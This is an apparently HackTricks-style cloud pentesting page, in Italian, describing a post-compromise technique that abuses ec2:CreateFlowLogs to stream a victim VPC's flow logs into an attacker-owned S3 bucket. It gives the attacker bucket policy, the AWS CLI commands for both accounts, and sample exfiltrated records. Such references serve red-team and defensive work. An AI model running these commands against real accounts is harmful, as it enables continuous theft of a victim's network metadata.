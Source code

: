 # AWS - VPC Flow Logs Cross-Account Exfiltration to S3

{{#include ../../../../banners/hacktricks-training.md}}

## Riassunto
Abusa di `ec2:CreateFlowLogs` per esportare i flow log della VPC, del subnet o dell'ENI direttamente in un bucket S3 controllato dall'attaccante. Una volta che il delivery role è configurato per scrivere nel bucket esterno, ogni connessione vista nella risorsa monitorata viene trasmessa fuori dall'account vittima.

## Requisiti
- Principal vittima: `ec2:CreateFlowLogs`, `ec2:DescribeFlowLogs`, e `iam:PassRole` (se è richiesto/creato un delivery role).
- Bucket dell'attaccante: policy S3 che autorizza `delivery.logs.amazonaws.com` con `s3:PutObject` e `bucket-owner-full-control`.
- Opzionale: `logs:DescribeLogGroups` se si esporta verso CloudWatch invece che verso S3 (non necessario qui).

## Procedura dell'attacco

1) **Attacker** prepara una policy per il bucket S3 (nell'account dell'attaccante) che permette al VPC Flow Logs delivery service di scrivere oggetti. Sostituire i placeholder prima di applicare:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "AllowVPCFlowLogsDelivery",
"Effect": "Allow",
"Principal": { "Service": "delivery.logs.amazonaws.com" },
"Action": "s3:PutObject",
"Resource": "arn:aws:s3:::<attacker-bucket>/flowlogs/*",
"Condition": {
"StringEquals": { "s3:x-amz-acl": "bucket-owner-full-control" }
}
}
]
}
```
Applica dall'account dell'attaccante:
```bash
aws s3api put-bucket-policy \
--bucket <attacker-bucket> \
--policy file://flowlogs-policy.json
```
2) **Victim** (compromised principal) crea i flow logs che puntano all'attacker bucket:
```bash
REGION=us-east-1
VPC_ID=<vpc-xxxxxxxx>
ROLE_ARN=<delivery-role-with-logs-permissions>   # Must allow delivery.logs.amazonaws.com to assume it
aws ec2 create-flow-logs \
--resource-type VPC \
--resource-ids "$VPC_ID" \
--traffic-type ALL \
--log-destination-type s3 \
--log-destination arn:aws:s3:::<attacker-bucket>/flowlogs/ \
--deliver-logs-permission-arn "$ROLE_ARN" \
--region "$REGION"
```
Nel giro di pochi minuti, i flow log files compaiono nell'attacker bucket contenenti connessioni per tutte le ENIs nella VPC/subnet monitorata.

## Evidenza

Esempi di record di flow log scritti nell'attacker bucket:
```text
version account-id interface-id srcaddr dstaddr srcport dstport protocol packets bytes start end action log-status
2 947247140022 eni-074cdc68182fb7e4d 52.217.123.250 10.77.1.240 443 48674 6 2359 3375867 1759874460 1759874487 ACCEPT OK
2 947247140022 eni-074cdc68182fb7e4d 10.77.1.240 52.217.123.250 48674 443 6 169 7612 1759874460 1759874487 ACCEPT OK
2 947247140022 eni-074cdc68182fb7e4d 54.231.199.186 10.77.1.240 443 59604 6 34 33539 1759874460 1759874487 ACCEPT OK
2 947247140022 eni-074cdc68182fb7e4d 10.77.1.240 54.231.199.186 59604 443 6 18 1726 1759874460 1759874487 ACCEPT OK
2 947247140022 eni-074cdc68182fb7e4d 16.15.204.15 10.77.1.240 443 57868 6 162 1219352 1759874460 1759874487 ACCEPT OK
```
Prova di Bucket listing:
```bash
aws s3 ls s3://<attacker-bucket>/flowlogs/ --recursive --human-readable --summarize
```
## Impatto
- Esfiltrazione continua dei metadata di rete (source/destination IPs, ports, protocols) per la VPC/subnet/ENI monitorata.
- Consente l'analisi del traffico, l'identificazione di servizi sensibili e l'eventuale ricerca di misconfigurazioni dei security group dall'esterno dell'account della vittima.

{{#include ../../../../banners/hacktricks-training.md}}
